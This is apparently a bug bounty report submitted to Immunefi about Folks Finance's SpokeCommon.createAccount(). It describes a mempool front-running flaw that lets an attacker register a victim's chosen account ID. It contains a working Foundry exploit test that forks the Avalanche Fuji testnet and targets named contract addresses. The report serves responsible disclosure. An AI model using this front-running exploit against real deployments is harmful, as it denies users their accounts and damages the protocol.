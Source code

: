 
# Griefing an user from creating an account.

Submitted on Thu Jul 25 2024 13:23:40 GMT-0400 (Atlantic Standard Time) by @Shahen for [Boost | Folks Finance](https://immunefi.com/bounty/folksfinance-boost/)

Report ID: #33645

Report type: Smart Contract

Report severity: Medium

Target: https://testnet.snowtrace.io/address/0x6628cE08b54e9C8358bE94f716D93AdDcca45b00

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro
This is a very simple bug description, When someone tries to create an account by calling `SpokeCommon.createAccount()`, An attacker that monitors the mempool can frontrun the call by taking the victims accountId from the parameters and registering it to the attacker. The attacker could do this again and again as the fee is very low. Please refer to the below coded foundry POC, Its a fork test and i have included the node rpc so just RUN `forge test -vvv`

## Vulnerability Details
Same as above Brief/Intro

## Impact Details
Griefing an user from creating an account.

## References
https://github.com/Folks-Finance/folks-finance-xchain-contracts/blob/fb92deccd27359ea4f0cf0bc41394c86448c7abb/contracts/spoke/SpokeCommon.sol#L27

        
## Proof of concept
## Proof of Concept

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../lib/forge-std/src/Test.sol";


interface iSpokeCommon {
    function createAccount(
        MessageParams memory params,
        bytes32 accountId,
        bytes32 refAccountId
    ) external payable;


}

interface iBridgeRouter {
    function getSendFee(MessageToSend memory message) external view returns (uint256);
}

interface iAccountManager {
     function isAccountCreated(bytes32 accountId) external view returns (bool);
     function isAddressRegisteredToAccount(
        bytes32 accountId,
        uint16 chainId,
        bytes32 addr
    ) external view returns (bool);
    function getAddressRegisteredToAccountOnChain(
        bytes32 accountId,
        uint16 chainId
    ) external view returns (bytes32);
}



struct MessageParams {
        uint16 adapterId; 
        uint16 returnAdapterId; 
        uint256 receiverValue; 
        uint256 gasLimit; 
        uint256 returnGasLimit; 
}

struct MessageToSend {
        MessageParams params; 
        bytes32 sender; 
        uint16 destinationChainId; 
        bytes32 handler; 
        bytes payload; 
        uint64 finalityLevel; 
        bytes extraArgs;
}

enum Action {
        
        CreateAccount,
        CreateLoan
}

struct MessagePayload {
        Action action;
        bytes32 accountId;
        bytes32 userAddress;
        bytes data;
}

struct UserLoanCollateral {
        uint256 balance; 
        uint256 rewardIndex;
}

struct UserLoanBorrow {
        uint256 amount; 
        uint256 balance; 
        uint256 lastInterestIndex;
        uint256 stableInterestRate; 
        uint256 lastStableUpdateTimestamp; 
        uint256 rewardIndex;
}



contract Folkstest is Test {

    iSpokeCommon public _SpokeCommon; 
    iBridgeRouter public _BridgeRouter;
    iAccountManager public _AccountManager;
    
   
    


    address bob = address(0x1); //victim
    address alex = address(0x2); //attacker

    MessageParams _MessageParams = MessageParams(uint16(1),uint16(1),uint16(0),uint256(201817),uint256(0)); 
    

   
    function setUp() public {
        //avalanche-testnet-contract 
        //https://avalanche-fuji.drpc.org (testnet-rpc)
        _SpokeCommon = iSpokeCommon(0x6628cE08b54e9C8358bE94f716D93AdDcca45b00); //SpokeCommon.sol 
        _BridgeRouter = iBridgeRouter(0x0f91d914E058d0588Cc1bf35FA3736A627C3Ba81); 
        _AccountManager = iAccountManager(0x3324B5BF2b5C85999C6DAf2f77b5a29aB74197cc);
        
        
        

    }

    function _message(bytes32 _accountId, address _useraddress) private returns (MessageToSend memory) {
        MessagePayload memory payload = MessagePayload(Action.CreateAccount,_accountId,bytes32(uint256(uint160(_useraddress))),abi.encodePacked(bytes32(0)));
        MessageToSend memory _message = MessageToSend({
            params: _MessageParams,
            sender: bytes32(uint256(uint160(0x6628cE08b54e9C8358bE94f716D93AdDcca45b00))), 
            destinationChainId: uint16(1),
            handler: bytes32(0x000000000000000000000000ae4c62510f4d930a5c8796dbfb8c4bc7b9b62140), 
            payload: abi.encodePacked(uint16(payload.action), payload.accountId, payload.userAddress, payload.data),
            finalityLevel: 0, 
            extraArgs: ""
        });

        return _message;
    }
    

    function _alex_frontrun_transaction(uint256 send_fee) private {
        _SpokeCommon.createAccount{value: send_fee}(_MessageParams,keccak256(abi.encodePacked("bobacc")),bytes32(0));
    }
    function test_grief_createAccount() public {
        vm.createSelectFork("https://avalanche-fuji.drpc.org");

    //1.Bob tries to create an account with account id "bobacc"
    //  Alex sees the transaction pending in the mempool,
    //  Alex frontruns the `SpokeCommon.createAccount()` with the same account ID from bobs parameters.
        vm.startPrank(alex);
        bytes32 account_id = keccak256(abi.encodePacked("bobacc"));
        uint256 _sendfee = _BridgeRouter.getSendFee(_message(account_id,alex));
        deal(alex,_sendfee);
        _alex_frontrun_transaction(_sendfee);
        vm.stopPrank();

    //2. Now Bobs transaction gets mined but the account is created under alex. 
        vm.startPrank(bob);
        _SpokeCommon.createAccount{value:_sendfee}(_MessageParams,keccak256(abi.encodePacked("bobacc")),bytes32(0));
    //3. Asserting that the account is created and the owner is Alex..
        bool _isAccountCreated = _AccountManager.isAccountCreated(keccak256(abi.encodePacked("bobacc")));
        assertEq(_isAccountCreated,true);
        bool _isAddressRegisteredToAccount_alex = _AccountManager.isAddressRegisteredToAccount(keccak256(abi.encodePacked("bobacc")),uint16(1),bytes32(uint256(uint160(alex))));
        assertEq(_isAddressRegisteredToAccount_alex,true);
        vm.stopPrank();
    //4. In conculsion Alex sucessfully griefed bob from creating an account.
    
    }

}